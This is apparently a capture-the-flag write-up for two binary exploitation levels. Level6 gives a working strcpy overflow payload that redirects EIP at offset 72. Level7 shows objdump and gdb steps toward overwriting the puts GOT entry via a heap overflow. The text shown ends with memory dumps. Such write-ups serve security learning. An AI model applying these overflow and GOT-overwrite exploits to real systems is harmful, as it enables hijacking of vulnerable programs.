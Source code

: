 
## Level6 - strcpy buffer overflow - code redirection

function m in called through an address stored in a pointer

We have to call n-function

`strcpy` is vulnerable with buffer overflows

### Resolve

```shell
pset arg cyclic_pattern(200)
run
pattern search
  EIP+0 found at offset: 72

n-function address: 0x08048454

~/level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
```

---

## Level7 - strcpy buffer overflow - code redirection

The program takes two arguments. Those arguments are copied inside two pointers.

The pass file is readed and stored inside a global variable. Unfortunately, this global variable is not readed.

m-function prints the global variable but is not called

=> Replace the address of puts in the Global Offset Table (GOT) with the m-function address.

### Resolve

```shell
# puts address
objdump -R ./level7  | grep puts
> 08049928 R_386_JUMP_SLOT   puts

# m address
objdump -t ./level7  | grep -w m
> 080484f4 g     F .text  0000002d    m

gdb-peda$ b *0x080485a0 # first strcpy
gdb-peda$ b *0x080485bd # second strcpy
gdb-peda$ run AAAAAAAA BBBBBBBB

gdb-peda$ x/x $esp+0x1c # s_arg1
> 0xbffff62c:     0x0804a008

gdb-peda$ x/x $esp+0x18 # s_arg2
> 0xbffff628:     0x0804a028

# After 2nd strcpy
gdb-peda$ x/20x 0x804a000
> 0x804a000: 0x00000000 0x00000011 0x00000001 0x0804a018 -> ptr1
                                     ┌─────────────────┤
  0x804a010: 0x00000000 0x00000011 0x41414141 0x41414141 <- dest1
  0x804a020: 0x00000000 0x00000011 0x00000002 0x0804a038 -> ptr2
                                     ┌─────────────────┤
  0x804a030: 0x00000000 0x00000011 0x42424242 0x42424242 <- dest2
  0x804a040: 0x00000000 0x00020fc1 0x00000000 0x00000000
```
